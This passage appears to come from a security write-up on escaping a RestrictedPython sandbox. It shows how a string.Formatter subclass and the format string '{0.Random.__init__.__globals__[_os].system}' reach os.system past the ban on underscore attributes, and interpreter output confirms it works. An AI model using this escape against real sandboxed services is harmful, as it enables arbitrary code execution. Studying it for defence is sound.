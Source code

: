 However, as we can see above, we cannot invoke functions inside the string format as they are interpreted as attributes. There is simply no syntax support for this and it also occurs by reading the code of `string.Formatter`. But, by also reading the source of `string.Formatter`, the following occurs:

```python
class Formatter:
    # ...
    # given a field_name, find the object it references.
    #  field_name:   the field being looked up, e.g. "0.name"
    #                 or "lookup[3]"
    #  used_args:    a set of which args have been used
    #  args, kwargs: as passed in to vformat
    def get_field(self, field_name, args, kwargs):
        first, rest = _string.formatter_field_name_split(field_name)
        obj = self.get_value(first, args, kwargs)

        # loop through the rest of the field_name, doing
        #  getattr or getitem as needed
        for is_attr, i in rest:
            if is_attr:
                obj = getattr(obj, i)
            else:
                obj = obj[i]

        return obj, first
```

The documentation also states the following:

> In addition, the Formatter defines a number of methods that are intended to be **replaced by subclasses**:
>
>`get_field(field_name, args, kwargs)` - Given `field_name` as returned by `parse()` (see above), convert it to an object to be formatted. Returns a tuple `(obj, used_key)`. The default version takes strings of the form defined in PEP 3101, such as “0[name]” or “label.title”. `args` and `kwargs` are as passed in to `vformat()`. The return value `used_key` has the same meaning as the key parameter to `get_value()`.

Aha! So the `string.Formatter` class has a function which returns the object from the attribute that we request. For example, if we request `format("{0.Random.__init__.__globals__[_os].system}", random)`, then the `obj` returned will be `<function posix.system(command)>`. In this way, if we override `get_field` with a custom one, we can leverage the returned value of the super class and get access to the object.

We also see at this point why we *can* access attributes with underscore (`_`), even though restrictedpython has banned them. `get_field` uses directly the global `getattr` and no restriction has been imposed by `restrictedpython` at this used global at this stage. So, let's create our subclass and test in an interpreter:

```python
import random
import string
import sys
class Baz(string.Formatter):
    def get_field(self, field_name, args, kwargs):
        obj, first = super().get_field(field_name, args, kwargs)
        sys.stdout.write(f'{first=} {obj=}') # print() did not work here
        return obj, first
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)

# interpreter output
Out[12]: first=0 obj=<built-in function system>'<built-in function system>'
```
